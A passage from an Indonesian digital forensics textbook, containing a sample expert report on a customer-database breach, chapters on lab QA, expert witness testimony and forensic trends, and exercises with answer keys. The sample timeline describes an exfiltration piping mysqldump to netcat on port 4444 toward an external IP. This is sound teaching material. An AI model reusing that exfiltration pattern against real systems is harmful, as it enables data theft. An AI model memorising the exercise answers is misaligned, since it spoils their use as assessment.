  pukul 23:40:17 UTC, durasi 1.847 detik

**Verbatim Command:**
```bash
volatility3 -f /case/working/E-001_memory.lime linux.netstat 2>&1 | \
  grep "198.51.100.42"
```
**Output:**
```
Tcp   198.51.100.42:34521   [server_ip]:22   ESTABLISHED   sshd/1842
```

**Analysis:** SSH session aktif dari IP eksternal 198.51.100.42. IP ini tidak terdaftar 
dalam baseline authorized remote IPs (verifikasi dengan IT admin dilakukan terpisah).

**Limitation:** Kami tidak dapat membuktikan siapa yang mengendalikan IP ini dari 
forensic evidence saja. Diperlukan legal process ke ISP.

---

### Finding F-002: Bulk Database Exfiltration [CRITICAL/HIGH]
[... struktur sama ...]

---

### Finding F-003: Anti-Forensics Activity [HIGH]
[... struktur sama ...]

---

## 5. TIMELINE (Validated)

| UTC Timestamp | Finding | Sources | Confidence |
|---|---|---|---|
| 2025-11-14T23:40:17 | SSH dari 198.51.100.42 established | F-001 (memory+firewall) | HIGH |
| 2025-11-14T23:42:00 | Bash command: mysqldump → nc | F-002 (memory) | HIGH |
| 2025-11-14T23:43:15 | MySQL audit: SELECT * customers 5x | F-001 (MySQL log+firewall) | HIGH |
| 2025-11-14T23:56:00 | Outbound ~235 MB ke 198.51.100.42 | F-002 (firewall) | HIGH |
| 2025-11-15T00:05:00 | SSH session terminated | F-001 (memory/firewall) | MEDIUM |
| 2025-11-15T00:06:00 | bash_history cleared on disk | F-003 (disk analysis) | HIGH |

---

## 6. HYPOTHESIS CONCLUSION

**H1 (External Breach via Credential Compromise):** SUPPORTED
Evidence: SSH dari IP eksternal (F-001) bersamaan dengan mysqldump execution dari 
bash memory (F-002) menunjukkan akses dari luar. Namun mekanisme credential compromise 
(phishing, brute force, SSH key theft) tidak teridentifikasi dari evidence yang tersedia.

**H2 (Insider Threat):** CANNOT BE EXCLUDED
Akses MySQL menggunakan credential dba01 (localhost), yang mungkin diakses oleh pihak 
eksternal melalui SSH session yang established. ATAU tersangka orang dalam yang 
mengizinkan/memfasilitasi akses eksternal. Pembuktian insider involvement memerlukan 
investigasi lebih lanjut.

**H3 (Legitimate Backup):** REFUTED
Tidak ada scheduled task atau cron job yang cocok dengan waktu dan destination eksfiltrasi. 
Tool yang digunakan (netcat ke port 4444) bukan tool backup standar.

---

## 7. LIMITATION STATEMENT

Investigasi ini memiliki keterbatasan berikut yang HARUS dipertimbangkan saat 
mengevaluasi temuan:

1. **Identitas Attacker:** Kami mengidentifikasi IP sumber (198.51.100.42) namun tidak 
   dapat mengidentifikasi siapa yang mengendalikan IP tersebut dari forensic evidence saja.
2. **SSH Authentication Method:** Log tidak menyimpan detail authentication method yang 
   digunakan untuk SSH session — apakah password atau SSH key.
3. **Data Content:** Kami tidak menganalisis konten dari data yang dieksfiltrasi — 
   volume dan tabel yang diakses teridentifikasi, namun bukan data spesifik record mana.
4. **Network Log Completeness:** Firewall log dikonfigurasi dengan retention 14 hari. 
   Aktivitas sebelum 1 November 2025 tidak tersedia.
5. **Post-Wipe Recovery:** bash_history yang dihapus dari disk tidak berhasil 
   di-recover dari unallocated space — data kemungkinan telah di-overwrite.

---

## 8. RECOMMENDATIONS

1. **Immediate:** Block IP 198.51.100.42 di semua perimeter; reset semua credential 
   dba01; audit SSH authorized_keys di semua server.
2. **Legal:** Ajukan preservation request kepada ISP/registrar IP 198.51.100.42 
   sesegera mungkin (sebelum log retention habis).
3. **Evidence Preservation:** Jaga semua evidence dalam kondisi sealed; jangan modifikasi.
4. **Further Investigation:** Periksa dari mana credential dba01 diperoleh attacker 
   (phishing analysis, credential dump sites, SSH brute force log).
5. **Regulatory:** Pertimbangkan notifikasi breach sesuai UU PDP No. 27/2022 — 
   50.000 records PII pelanggan berpotensi wajib dilaporkan ke BSSN.

---

## 9. EXPERT ATTESTATION

Saya menyatakan bahwa:
- Analisis dilakukan secara independen dan objektif
- Temuan yang dilaporkan berdasarkan bukti forensik yang terverifikasi
- Keterbatasan dan uncertainty telah didokumentasikan secara jujur
- Seluruh analisis dapat direproduksi menggunakan Reproducibility Package (referensi: 
  07_Reproducibility_Package/)
- Saya tidak memiliki konflik kepentingan dengan pihak-pihak yang terlibat

[Nama], [Kualifikasi], [Tanggal]
```

### 4.2 Reproducibility Package

```markdown
## REPRODUCIBILITY PACKAGE STRUCTURE

07_Reproducibility_Package/
├── README_reproducibility.md       # Petunjuk untuk verifier
├── tool_inventory.csv              # Semua tool dengan hash binary
├── command_log.sh                  # Semua perintah yang dijalankan (verbatim)
├── evidence_register.xlsx          # EID, hash, CoC lengkap
├── analysis_notes.md               # Reasoning dan hypothesis mapping
└── expected_outputs/
    ├── v3_002_pslist_expected.txt  # Output yang diharapkan dari memory analysis
    ├── v3_003_netstat_expected.txt
    └── ...

### README_reproducibility.md (excerpt):
# Verifikasi Independen — CF-2025-CAPSTONE

Untuk memverifikasi findings kami:
1. Dapatkan working copy evidence dari evidence custodian (dengan otorisasi yang sesuai)
2. Verifikasi hash evidence sesuai evidence_register.xlsx
3. Jalankan perintah dari command_log.sh dalam urutan yang tertera
4. Bandingkan output dengan expected_outputs/
5. Findings yang dilaporkan dalam laporan harus terlihat dalam output Anda

Tools yang diperlukan dan hashnya tersedia di tool_inventory.csv.
Untuk pertanyaan, hubungi: [kontak investigator]
```

## 5. Model atau Arsitektur

```mermaid
flowchart LR
    subgraph PHASE1["Fase 1"]
        IDD_DOC["IDD\n(authorization,\nhypotheses,\nacquisition plan)"]
    end
    
    subgraph PHASE2["Fase 2"]
        FINDINGS["Findings\n(F-001 s/d F-N)\nper-finding template"]
        TIMELINE["Validated\nTimeline"]
        AF_DETECT["Anti-Forensics\nSection"]
    end
    
    subgraph PHASE3["Fase 3 — Report"]
        EXEC["Executive Summary\n(1 page, non-technical)"]
        METH["Methodology\n(IDD + tools)"]
        FIND_SECTION["Findings Section\n(verbatim evidence)"]
        HYPO_CONC["Hypothesis\nConclusion"]
        LIMIT["Limitation\nStatement"]
        RECCOMEND["Recommendations"]
        ATTEST["Expert\nAttestation"]
    end
    
    subgraph REPRO["Reproducibility Package"]
        CMDLOG["Command Log\n(verbatim)"]
        TOOL_INV["Tool Inventory\n(hash per tool)"]
        EV_REG["Evidence Register\n(full)"]
    end
    
    IDD_DOC --> METH
    FINDINGS --> FIND_SECTION --> HYPO_CONC
    TIMELINE --> FIND_SECTION
    AF_DETECT --> FIND_SECTION
    EXEC & METH & FIND_SECTION & HYPO_CONC & LIMIT & RECCOMEND & ATTEST --> FINAL_REPORT["Final Expert Report\n(PDF + signed)"]
    CMDLOG & TOOL_INV & EV_REG --> REPRO_PKG["Reproducibility\nPackage (ZIP)"]
    FINAL_REPORT & REPRO_PKG --> SUBMISSION["Capstone Submission\n(Eval-5/EAS)"]
```

## 6. Contoh Terapan

**Executive Summary writing practice:**

```markdown
## CONTOH: Executive Summary yang Kurang Baik vs Baik

### KURANG BAIK:
"Analisis forensik menunjukkan bahwa DBA-01 melakukan exfiltration data 
pelanggan dengan menggunakan SSH dan tools hacking untuk mentransfer 235 MB 
data ke server hacker di luar negeri."

Masalah: (1) menyebut nama individu sebagai pelaku tanpa pembuktian identity; 
(2) "tools hacking" — sudut pandang yang tidak objektif; (3) "server hacker" — 
spekulasi tentang pemilik IP; (4) overclaim yang tidak didukung evidence langsung.

### BAIK:
"Bukti forensik menunjukkan akses tidak sah ke server database pada 14 November 2025
menggunakan SSH dari IP 198.51.100.42 (sumber belum teridentifikasi). Sebuah proses 
mysqldump yang tidak terjadwal dieksekusi, yang menghasilkan transfer ~235 MB data 
ke IP yang sama. Credential yang digunakan adalah akun dba01; mekanisme bagaimana 
attacker mendapatkan credential ini belum dapat ditentukan dari evidence yang ada."

Baik karena: (1) faktual; (2) mencantumkan uncertainty ("belum teridentifikasi"); 
(3) tidak overclaim tentang identitas; (4) menjelaskan apa yang diketahui dan 
apa yang tidak diketahui.
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun laporan ahli lengkap untuk Capstone Case.

**Aktivitas:**
1. Compile semua findings dari Fase 2 menggunakan Finding Template.
2. Tulis Executive Summary (max 1 halaman) yang dapat dipahami non-teknis.
3. Susun validated timeline dengan confidence ratings.
4. Tulis Hypothesis Conclusion berdasarkan evidence yang ditemukan.
5. Tulis Limitation Statement yang lengkap.
6. Bangun Reproducibility Package (command log, tool inventory).
7. Finalisasi laporan dengan Expert Attestation.

**Output:** Complete Expert Forensic Report + Reproducibility Package — Capstone Final Submission (Eval-5/EAS).

## 8. Latihan Pemahaman

1. **(C5)** Seorang investigator menulis dalam laporannya: "Tersangka terbukti mencuri data." Evaluasi pernyataan ini dari perspektif (a) bahasa hukum yang tepat, (b) standar forensik, dan (c) etika profesi.

2. **(C4)** Apa yang dimaksud dengan "reproducibility" dalam konteks laporan forensik, dan mengapa ini penting untuk admissibility di pengadilan?

## 9. Latihan Terapan / Studi Kasus

Review Executive Summary berikut dan identifikasi minimal 5 masalah, kemudian rewrite dengan benar: "Pada malam 14 November, hacker bernama anonymous menggunakan tools canggih untuk break-in ke server kami dan mencuri seluruh database pelanggan sebanyak 250.000 orang. Hacker ini sangat sophisticated karena menghapus semua jejaknya. Namun investigator kami yang berpengalaman berhasil membuktikan bahwa DBA-01 yang berkolusi dengan hacker tersebut. Investigasi ini 100% conclusive."

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** (a) Bahasa hukum: "Terbukti" adalah kesimpulan hukum yang merupakan domain pengadilan (hakim dan juri), bukan forensic investigator. Investigator hanya dapat menyatakan apa yang didukung oleh evidence forensik dan dengan confidence level berapa — bukan verdict tentang guilt. Kata yang tepat: "Evidence konsisten dengan..." atau "Evidence menunjukkan bahwa..." (b) Standar forensik: Forensic investigator harus melaporkan apa yang terlihat di evidence, bukan kesimpulan tentang guilty/not guilty. Tanpa investigasi menyeluruh semua hipotesis alternatif, klaim "terbukti" adalah metodologis tidak valid. (c) Etika: Overclaim dalam laporan forensik dapat mislead pengadilan dan berpotensi menghukum orang yang tidak bersalah. Ini melanggar prinsip dasar etika profesi forensik: objectivity, accuracy, dan intellectual honesty.

**Soal 2:** Reproducibility dalam forensik berarti: orang lain yang independen, dengan akses ke working copy evidence yang sama (bukan original), menggunakan tool yang sama dengan versi yang sama, menjalankan command yang sama dalam urutan yang sama, akan mendapatkan output yang sama dan sampai pada temuan yang sama. Ini penting untuk admissibility karena: (a) defensif terhadap challenge di pengadilan bahwa "investigasi tidak bisa diverifikasi"; (b) memungkinkan court-appointed expert atau ahli pembela untuk melakukan independent verification; (c) tanpa reproducibility, laporan adalah "trust me" statement dari satu individu, bukan scientific finding yang dapat diverifikasi secara objektif.

**Studi Kasus:** 5 masalah: (1) "hacker bernama anonymous" — spekulasi, mengklaim identity tanpa evidence; (2) "tools canggih" dan "sophisticated" — subjektif, bukan deskripsi forensik; (3) "break-in" — bahasa informal dan tidak tepat secara teknis; (4) "DBA-01 yang berkolusi" — klaim serius tentang identity dan intent tanpa foundation yang dijelaskan; (5) "100% conclusive" — tidak ada investigasi yang 100% conclusive; ini overclaim yang sangat bermasalah. Rewrite yang baik: "Investigasi forensik digital terhadap insiden 14 November 2025 mengidentifikasi: (1) akses tidak sah melalui SSH dari IP 198.51.100.42 ke database server pukul 23:40 UTC; (2) eksekusi mysqldump yang tidak terjadwal menggunakan credential akun dba01; (3) transfer ~235 MB data ke IP yang sama. Evidence menunjukkan bahwa credential dba01 digunakan untuk akses database dari sesi SSH eksternal. Identitas pihak yang mengendalikan IP 198.51.100.42, serta bagaimana credential diperoleh, tidak dapat ditentukan dari evidence forensik yang tersedia dan memerlukan investigasi lebih lanjut. Findings ini memiliki confidence HIGH berdasarkan corroboration 3 sumber independen, dengan keterbatasan yang dijelaskan dalam Bab 7 laporan ini."

## 11. Ringkasan Bab

Laporan ahli forensik memiliki struktur baku: Executive Summary, Metodologi, Findings (per-finding dengan verbatim evidence), Timeline, Hypothesis Conclusion, Limitation Statement, Recommendations, dan Expert Attestation. Executive Summary harus faktual dan non-spekulatif. Hypothesis conclusion menyatakan "supported/refuted/cannot be excluded" — bukan "guilty/not guilty." Reproducibility Package memungkinkan verifikasi independen. Limitation Statement adalah tanda kejujuran dan profesionalisme, bukan kelemahan.

## 12. Refleksi Profesional

1. Laporan forensik yang Anda tulis mungkin akan dibaca oleh pengadilan dan menentukan nasib seseorang. Apa "red lines" yang tidak akan Anda lampaui dalam menulis laporan, bahkan jika klien meminta? Bagaimana Anda membangun "mekanisme perlindungan diri" sebagai profesional forensik agar tidak tertekan untuk menulis laporan yang tidak jujur?


---

# BAB 15 — PENGAYAAN: QUALITY ASSURANCE LAB DAN KESAKSIAN AHLI

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Memahami konsep forensic lab quality assurance (QA) dan akreditasi
- Menerapkan prinsip peer review untuk investigasi forensik
- Mempersiapkan diri sebagai expert witness dalam sidang
- Memahami etika kesaksian ahli dalam sistem hukum Indonesia

*Bab Pengayaan — memperkuat kompetensi profesional lintas Sub-CPMK*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Forensic Lab QA &\nExpert Witness] --> B[Lab Quality Assurance]
    B --> B1["Akreditasi:\nISO/IEC 17025 untuk\nlaboratorium forensik"]
    B --> B2["Validasi tool:\nuji tool forensik pada\nknown dataset"]
    B --> B3["Proficiency testing:\nuji kompetensi investigator\ndengan blind case"]
    B --> B4["Peer review:\nreview laporan oleh\nkolega sebelum submit"]
    A --> C[Expert Witness]
    C --> C1["Kualifikasi:\npendidikan, sertifikasi,\npengalaman kasus"]
    C --> C2["Daubert standard:\nmetode ilmiah yang\ndapat diuji"]
    C --> C3["Gaya kesaksian:\njelas, faktual,\ntidak berpihak"]
    C --> C4["Cross-examination:\nmempertahankan temuan\ntanpa defensive"]
    A --> D[Etika Expert Witness]
    D --> D1["Objektif: berikan\nopini berdasarkan\nevidence, bukan klien"]
    D --> D2["Batasan: akui\nketerbatasan keahlian"]
    D --> D3["Konsistensi:\nopini sama terlepas\nsiapa yang membayar"]
```

## 3. Pengantar Kontekstual

Forensic lab yang beroperasi tanpa QA framework adalah liability — temuan yang dihasilkan dapat dipertanyakan validitasnya di pengadilan. Expert witness yang tidak mempersiapkan diri untuk cross-examination dapat merusak kasus yang sebenarnya kuat secara evidence. Bab ini membahas aspek profesional yang seringkali diabaikan namun kritis bagi karir investigator forensik.

## 4. Landasan Teori

### 4.1 ISO/IEC 17025 untuk Forensic Lab

ISO/IEC 17025 adalah standar internasional untuk kompetensi laboratorium pengujian dan kalibrasi. Dalam konteks forensik digital, elemen kunci yang relevan:

**Manajemen (Management Requirements):**
- **Impartiality:** Lab harus bebas dari tekanan komersial atau institutional yang dapat mempengaruhi hasil
- **Document control:** Semua prosedur terdokumentasi, version-controlled, dan diikuti secara konsisten
- **Non-conformance management:** Setiap penyimpangan dari SOP didokumentasikan dan diinvestigasi

**Teknis (Technical Requirements):**
- **Personnel competence:** Investigator harus memiliki kualifikasi, pelatihan, dan track record yang terdokumentasi
- **Equipment calibration:** Tools forensik divalidasi secara periodik menggunakan known good images
- **Method validation:** Metode yang digunakan harus divalidasi terhadap ground truth sebelum digunakan di kasus nyata
- **Traceability:** Setiap temuan dapat di-trace ke evidence asli melalui chain of custody

### 4.2 Tool Validation: Mengapa Tool Forensik Perlu Divalidasi

```python
"""
Contoh tool validation procedure untuk tool forensik.
Tujuan: memastikan tool menghasilkan output yang benar pada known dataset.
"""

# Validasi hash calculation tool:
def validate_hash_tool():
    """
    Test: apakah sha256sum menghitung hash dengan benar?
    Known dataset: file dengan konten yang diketahui dan hash yang sudah diverifikasi.
    """
    import hashlib
    import subprocess
    
    # Known data untuk test:
    test_data = b"NIST test vector for SHA-256"
    
    # Expected SHA-256 (dihitung manual dengan library yang trusted):
    expected_hash = hashlib.sha256(test_data).hexdigest()
    
    # Tulis ke test file:
    with open('/tmp/validation_test.bin', 'wb') as f:
        f.write(test_data)
    
    # Uji dengan sha256sum command:
    result = subprocess.run(['sha256sum', '/tmp/validation_test.bin'], 
                          capture_output=True, text=True)
    tool_hash = result.stdout.split()[0]
    
    if tool_hash == expected_hash:
        print(f"[PASS] sha256sum validation: {tool_hash}")
        return True
    else:
        print(f"[FAIL] Expected: {expected_hash}")
        print(f"[FAIL] Got:      {tool_hash}")
        return False

# Validasi Volatility dengan known memory image:
def validate_volatility_pslist(known_image_path, expected_processes):
    """
    Test: apakah Volatility pslist mengidentifikasi proses yang benar?
    known_image_path: memory image dengan konten yang diketahui (dari NIST test suite)
    expected_processes: list proses yang seharusnya terlihat
    """
    import subprocess
    result = subprocess.run(
        ['volatility3', '-f', known_image_path, 'windows.pslist'],
        capture_output=True, text=True
    )
    
    for expected_proc in expected_processes:
        if expected_proc in result.stdout:
            print(f"[PASS] Process '{expected_proc}' found as expected")
        else:
            print(f"[FAIL] Process '{expected_proc}' NOT found — tool may not be working correctly")
```

### 4.3 Expert Witness: Persiapan dan Gaya Kesaksian

**Daubert Standard (berlaku di AS dan diadopsi sebagian dalam praktik forensik internasional):**
Metode forensik yang dapat diterima di pengadilan harus memenuhi:
1. **Testability:** dapat diuji dan dapat difalse (dibuktikan salah)
2. **Peer review:** telah dipublikasikan/direview oleh komunitas ilmiah
3. **Error rate:** tingkat kesalahan yang diketahui
4. **General acceptance:** diterima secara luas oleh komunitas forensik

**Prinsip kesaksian yang baik:**
- Gunakan bahasa sederhana untuk konsep teknis
- Jangan melebih-lebihkan certainty
- Akui apa yang tidak diketahui dengan jujur
- Tetap konsisten dengan laporan tertulis
- Jika tidak tahu jawaban, katakan "Saya tidak tahu" — bukan menebak

```markdown
## CONTOH: Cross-Examination Preparation

### Pertanyaan yang Mungkin Diajukan Pembela:

Q: "Anda mengatakan confidence Anda HIGH. Apakah itu berarti 100% pasti?"
A: "Tidak. HIGH confidence dalam konteks forensik digital berarti bahwa 2 atau lebih 
sumber bukti independen mengkonfirmasi temuan tersebut. Ini tidak berarti absolut 
atau bebas error. Ketidakpastian yang tersisa sudah saya dokumentasikan dalam 
Limitation Statement laporan saya, Bagian 7."

Q: "Tool Volatility yang Anda gunakan — apakah pernah menghasilkan false positive?"
A: "Setiap tool forensik memiliki potensi error. Untuk alasan inilah, kami tidak 
pernah mengandalkan satu tool satu sumber. Temuan yang saya laporkan di F-001 
dikonfirmasi oleh 2 sumber independen: output Volatility DAN firewall log dari 
sistem terpisah. Jika Volatility menghasilkan false positive untuk temuan ini, 
firewall log yang merupakan sistem independen tidak akan menunjukkan hal yang sama."

Q: "Anda dibayar oleh XYZ Corp untuk investigasi ini. Apakah itu mempengaruhi 
   kesimpulan Anda?"
A: "Saya memang dikontrak oleh XYZ Corp sebagai klien, namun tugas saya sebagai 
forensic expert adalah melaporkan apa yang ditemukan oleh evidence, bukan apa 
yang diinginkan klien. Dalam laporan saya, Anda akan menemukan H2 (insider involvement) 
yang saya tetapkan sebagai 'cannot be excluded' — ini bukan menguntungkan klien, 
namun itu yang ditunjukkan oleh evidence."
```

### 4.4 Forensic Lab Peer Review Checklist

```markdown
## PEER REVIEW CHECKLIST — Forensic Report

Reviewer: [Nama]  Case: [ID]  Report version: [X.X]

### Completeness
□ IDD tersedia dan di-reference dalam laporan
□ Semua evidence items dalam evidence register ter-address dalam laporan
□ Semua hypotheses di-address dengan verdict yang jelas
□ Executive Summary mencakup semua key findings

### Accuracy
□ Setiap finding memiliki verbatim evidence (command output)
□ Semua timestamps dalam UTC atau disebutkan timezone-nya
□ Tool versi dan hash tercantum dalam methodology
□ Hash values dalam finding match dengan evidence register

### Objectivity
□ Tidak ada bahasa yang overclaim ("terbukti", "pasti", "jelas")
□ Evidence yang membebaskan tersangka juga dicantumkan
□ Confidence levels tertera untuk setiap finding
□ Limitation Statement mencakup semua keterbatasan yang diketahui

### Reproducibility
□ Command log tersedia dan lengkap
□ Tool inventory tersedia
□ Expected output tersedia untuk perbandingan
□ Verifier independent dapat mengulangi analisis dengan panduan yang ada

### Legal Compliance
□ Otorisasi tertulis tersedia dan di-reference
□ CoC tidak ada gap
□ Tidak ada PII yang tidak relevan terekspos dalam laporan
□ Expert attestation ditandatangani

REVIEWER VERDICT: □ Approved  □ Revisions needed  □ Major revisions required
Notes: ___
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    CASE_IN["Case Received"] --> IDD_PREP["IDD + Legal Authorization"]
    IDD_PREP --> ANALYSIS["Forensic Analysis\n(Fase 1, 2, 3)"]
    ANALYSIS --> DRAFT_REPORT["Draft Report"]
    DRAFT_REPORT --> PEER_REVIEW["Internal Peer Review\n(checklist-based)"]
    PEER_REVIEW --> |"Issues found"| REVISE["Revisi dan Klarifikasi"]
    REVISE --> PEER_REVIEW
    PEER_REVIEW --> |"Approved"| FINAL_REPORT["Final Report"]
    FINAL_REPORT --> CLIENT["Delivered to Client/Court"]
    CLIENT --> |"Trial"| EXPERT_WITNESS["Expert Witness Testimony"]
    EXPERT_WITNESS --> |"Cross-examination"| DEFEND["Pertahankan Temuan:\nfaktual, konsisten,\ntransparent"]
```

## 6. Contoh Terapan

**Scenario: Mempersiapkan jawaban untuk cross-examination yang sulit:**

Pengacara pembela memperlihatkan bahwa ada 30 menit "gap" dalam timeline yang Anda buat — periode tanpa evidence — dan berargumen bahwa selama gap itu mungkin ada aktivitas lain yang "mematahkan" teori Anda.

**Respons yang tepat:**
"Gap selama 30 menit antara [waktu A] dan [waktu B] memang ada dalam timeline kami, dan sudah kami catat dalam Limitation Statement laporan, spesifik di item nomor 4. Gap ini terjadi karena retention period firewall log yang hanya 14 hari menyebabkan beberapa log tidak tersedia. Kami tidak mengetahui apa yang terjadi selama periode tersebut dari evidence yang ada. Apa yang kami ketahui adalah bahwa event sebelum gap (F-001, koneksi SSH established) dan event setelah gap (F-002, mysqldump execution) keduanya konsisten dengan satu skenario yang berkesinambungan. Kemungkinan bahwa ada skenario alternatif selama gap tersebut adalah kesimpulan yang sah untuk dieksplorasi, namun saya tidak memiliki evidence untuk mengkonfirmasi atau menyangkalnya."

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Melakukan peer review laporan rekan dan mempersiapkan mock expert witness testimony.

**Aktivitas:**
1. Tukar laporan Capstone dengan rekan mahasiswa.
2. Gunakan Peer Review Checklist untuk me-review laporan rekan.
3. Berikan feedback tertulis (strengths, areas for improvement).
4. Role-play: satu mahasiswa sebagai expert witness, satu sebagai pengacara pembela, menggunakan laporan yang sudah difinalisasi.
5. Catat: apakah ada temuan dalam laporan yang sulit dipertahankan saat cross-examination?

## 8. Latihan Pemahaman

1. **(C5)** Anda di-cross-examine dan pengacara berhasil menunjukkan bahwa satu dari tool yang Anda gunakan (Volatility) pernah menghasilkan false positive pada versi sebelumnya. Bagaimana Anda merespons untuk mempertahankan validitas findings Anda?

2. **(C4)** Mengapa peer review internal sebelum laporan di-submit lebih efektif daripada hanya mengandalkan self-review oleh investigator yang bersangkutan?

## 9. Latihan Terapan / Studi Kasus

Lab forensik Anda baru saja mengerjakan kasus high-profile di mana tersangka akhirnya divonis tidak bersalah berdasarkan bukti baru. Ternyata tool yang digunakan lab untuk analisis timestamp memiliki bug yang menghasilkan timestamps yang salah untuk timezone tertentu — dan ini adalah bug yang sudah diketahui oleh vendor sejak 6 bulan sebelum kasus tersebut. Diskutikan: (a) Bagaimana ini bisa terjadi dan apa sistem yang seharusnya mencegahnya? (b) Apa tanggung jawab lab terhadap tersangka, pengadilan, dan publik? (c) Langkah apa yang harus dilakukan lab setelah mengetahui hal ini?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Respons yang tepat: "Terima kasih untuk informasi tentang false positive tersebut. Untuk alasan ini, praktik standar kami adalah tidak pernah mengandalkan satu tool atau satu sumber dalam laporan. Finding yang terkait dengan Volatility dalam laporan ini — spesifik F-001 mengenai SSH connection — dikonfirmasi secara independen oleh firewall log dari sistem yang berbeda (E-003). Jika Volatility menghasilkan false positive untuk connection ini, firewall log yang tidak terhubung ke machine tersebut dan dikontrol oleh sistem terpisah tidak akan menunjukkan packet yang identic pada waktu yang sama. Kedua sumber yang independent dan konsisten memberikan confidence yang jauh lebih tinggi daripada salah satu sumber saja."

**Soal 2:** Self-review memiliki keterbatasan psikologis yang fundamental: orang cenderung melihat apa yang mereka harapkan ada (confirmation bias), tidak melihat gap dalam reasoning karena sudah "terlalu dekat" dengan materi, dan tidak mendeteksi asumsi yang dibuat secara tidak sadar. Peer reviewer yang independen datang tanpa bias tersebut: mereka melihat dengan perspektif segar, akan bertanya "mengapa" untuk hal yang tampaknya obvious, dan akan menangkap inkonsistensi yang investigator sendiri mungkin miss. Di court, pembela akan melakukan hal yang sama — lebih baik menemukan masalah sendiri sebelum trial.

**Studi Kasus:** (a) Seharusnya dicegah oleh: (i) tool validation procedure — sebelum tool baru atau versi baru digunakan di kasus nyata, diuji pada known dataset termasuk edge cases timezone; (ii) subscription ke security bulletin atau changelog vendor — bug yang diketahui seharusnya sudah alert lab sejak 6 bulan lalu; (iii) hasil timezone-sensitive seharusnya di-corroborate dengan sumber lain; (iv) continuing education — investigator harus aware tentang known tool issues. (b) Tanggung jawab lab: kepada tersangka — jika lab berkontribusi pada conviction yang salah, ada tanggung jawab moral dan mungkin hukum untuk mengungkapkan hal ini; kepada pengadilan — forensic expert memiliki duty of candor kepada pengadilan, termasuk mengungkapkan jika mengetahui bahwa evidence yang diberikan mungkin tidak akurat; kepada publik — integritas sistem forensik bergantung pada transparansi tentang kesalahan. (c) Langkah yang harus dilakukan: segera laporkan kepada management dan legal counsel; audit semua kasus yang menggunakan tool tersebut dalam periode sejak bug diketahui ada; bekerja sama dengan pengadilan dan pihak-pihak yang terpengaruh; update tool dan re-validate; dokumentasikan incident ini dalam QA system untuk perbaikan prosedur.

## 11. Ringkasan Bab

Forensic lab QA mencakup tool validation, peer review, dan proficiency testing — komponen yang seringkali diabaikan namun kritis untuk admissibility. ISO/IEC 17025 memberikan framework untuk lab forensik yang dapat diakreditasi. Expert witness yang efektif adalah yang faktual, konsisten, dan jujur tentang keterbatasan — bukan yang "menjual" kasus klien. Peer review internal sebelum submission menangkap masalah yang self-review terlewatkan.

## 12. Refleksi Profesional

1. Sebagai investigator forensik, Anda menemukan sebuah error dalam laporan Anda yang sudah di-submit ke pengadilan tetapi persidangan belum dimulai. Error tersebut tidak mengubah kesimpulan utama namun mengubah beberapa detail teknis. Apa yang Anda lakukan? Apa kewajiban hukum dan etika Anda?

---

# BAB 16 — PENGAYAAN: TREN FORENSIK DIGITAL DAN INTEGRASI INCIDENT RESPONSE

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengidentifikasi tren terkini dalam forensik digital (2024-2026)
- Memahami integrasi forensik digital ke dalam lifecycle Incident Response
- Mengevaluasi tantangan forensik pada emerging technologies
- Merancang forensic readiness strategy untuk organisasi

*Bab Pengayaan — forward-looking perspective*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Forensics Trends &\nIR Integration] --> B[Emerging Challenges]
    B --> B1["AI-Generated Evidence:\ndeepfake, AI-synthesized log,\ndeteksi dan validasi"]
    B --> B2["Encrypted Communications:\nSignal, E2E — forensic\nlimitations"]
    B --> B3["IoT Forensics:\ndevice baru, protokol baru,\nno standard"]
    B --> B4["Cloud-Native Forensics:\nserverless, containers,\nephemeral — log is all"]
    A --> C[IR Integration]
    C --> C1["NIST SP 800-61:\nPrepare → Detect →\nContain → Eradicate → Recover"]
    C --> C2["Forensic readiness:\npre-incident logging,\nretention, CoC"]
    C --> C3["Forensic-IR handoff:\nketika IR memanggil\nforensic investigator"]
    C --> C4["Post-incident:\nforensic report → lessons\nlearned → improvement"]
    A --> D[AI dalam Forensik]
    D --> D1["AI-assisted analysis:\nML untuk anomaly detection\ndalam log"]
    D --> D2["AI-generated fake:\ntantangan autentikasi\nevidence baru"]
    D --> D3["LLM limitations:\njangan gunakan LLM untuk\nklaim forensik tanpa verification"]
```

## 3. Pengantar Kontekstual

Forensik digital adalah bidang yang berevolusi cepat. Teknik yang relevan hari ini mungkin tidak memadai untuk 5 tahun ke depan. Investigator senior tidak hanya menguasai teknik saat ini, tetapi juga memahami arah perkembangan bidang dan bersiap menghadapi tantangan yang akan datang: AI-generated evidence, encrypted communications yang semakin kuat, dan forensik pada cloud-native infrastructure yang ephemeral.

## 4. Landasan Teori

### 4.1 Tantangan Forensik Digital Emerging

**AI-Generated Content dan Deepfake:**

```markdown
## Tantangan Autentikasi Evidence di Era AI

### Masalah
Generative AI dapat menghasilkan: gambar, video, audio, dan bahkan log file yang 
terlihat meyakinkan namun merupakan fabrication. Ini menciptakan tantangan baru 
untuk forensik: bagaimana membuktikan bahwa evidence adalah authentic?

### Teknik Deteksi Deepfake (State of Practice 2025-2026)
1. **Metadata analysis:** Generated images sering kekurangan metadata EXIF yang konsisten
   dengan device yang diklaim
2. **Noise pattern analysis:** Camera sensor fingerprint (Photo Response Non-Uniformity/PRNU)
   tidak dapat di-replikasi oleh AI-generated images
3. **Temporal consistency:** Video deepfake sering memiliki frame-level inconsistencies
   (blinking rate, micro-expressions)
4. **Tool-specific artifacts:** AI image generators (Midjourney, DALL-E) sering 
   meninggalkan watermark atau spectral signatures yang detectable

### Untuk Log Files
- AI dapat menghasilkan plausible-looking log files
- Validasi: log harus di-verify dari sistem sumber (tidak hanya dari file yang diserahkan)
- Hash verification dari logging system source (bukan dari file extract)
- Sequence number consistency dalam structured logs (EventID sequence, API response IDs)

### Implikasi untuk Investigator
Investigator harus dapat menjelaskan provenance setiap piece of evidence:
DARI MANA evidence ini, BAGAIMANA cara mendapatkannya, dan MENGAPA kita yakin
bahwa ini authentic (bukan generated).
```

**Encrypted Communications — Forensic Limitations:**

```markdown
